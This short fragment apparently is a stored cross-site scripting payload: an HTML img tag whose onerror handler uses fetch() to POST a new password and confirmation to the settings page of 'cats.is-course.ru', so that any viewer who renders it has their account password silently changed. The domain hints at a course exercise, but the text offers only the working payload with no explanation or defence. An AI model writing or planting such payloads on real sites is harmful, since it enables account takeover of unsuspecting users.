 <h1>test</h1>
<img src=a onerror=fetch("https://cats.is-course.ru/settings", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "password=CatsRuletheWorld1%21&confirm-password=CatsRuletheWorld1%21"
})/>
